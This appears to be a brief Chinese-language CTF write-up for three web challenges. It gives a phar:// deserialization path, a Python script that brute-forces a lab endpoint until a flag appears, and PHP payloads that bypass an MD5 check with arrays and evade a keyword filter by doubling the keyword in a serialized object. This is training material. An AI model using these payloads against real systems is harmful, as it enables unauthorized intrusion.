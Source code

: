在check image size中传入`compress.zlib://phar://uploads/487dfa0355.jpeg/test.jpeg`即可

# lottery

```python
import json

import requests

headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36 Edg/92.0.902.62',
           'Content-Type': 'application/x-www-form-urlencoded'}


def burp():
    url = "http://172.16.172.202:8008/data.php"
    while 1:
        r = requests.post(url=url, headers=headers)
        result = json.loads(r.text)
        if result['flag'][0:5] == "flag{":
            print(result)
            break


if __name__ == '__main__':
    burp()
```

# unserialize

传入`source=1`,得到源代码

构造`A[]=1&B[]=2`使得其满足`$_GET['A']!=$_GET['B'] && $md51 === $md52`的条件

```php
<?php

class Getflag{
	protected $value=1;

	public function __destruct(){
	}

}
$a=new Getflag();
print_r(urlencode(serialize($a)));
```

`O%3A7%3A%22Getflag%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00value%22%3Bi%3A1%3B%7D`

构造反序列化,但注意`$ans=str_replace('Getflag', '', $ans);`存在关键词替换,使用双写绕过即可

`O%3A7%3A%22GGetflagetflag%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00value%22%3Bi%3A1%3B%7D`
